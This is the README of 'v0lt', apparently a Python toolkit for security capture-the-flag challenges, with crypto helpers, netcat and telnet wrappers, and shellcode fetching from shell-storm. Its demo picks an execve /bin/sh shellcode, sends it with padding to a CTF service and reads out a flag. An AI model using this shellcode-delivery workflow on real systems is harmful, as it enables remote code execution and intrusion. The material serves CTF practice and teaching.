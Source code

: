 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Python3    
  * BeautifulSoup    
  * Requests    

####Installation:   
```Bash
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
sudo python3 setup.py install # sudo is required for potentially missing dependencies    
```

##Demo: Shellcodes
```Python
>>> from v0lt import shellcode
>>> from v0lt.netcat import Netcat
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read(1))
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
You chosed http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"
>>> shell_code = shellhack.shellcode

>>> nc.shellcat(shell_code)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
File name too long
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP1kaCTF{EasyPe4syL3m0nSq33zy!!}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (Xor)    
    * Usual conversions (bytes/strings/hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more
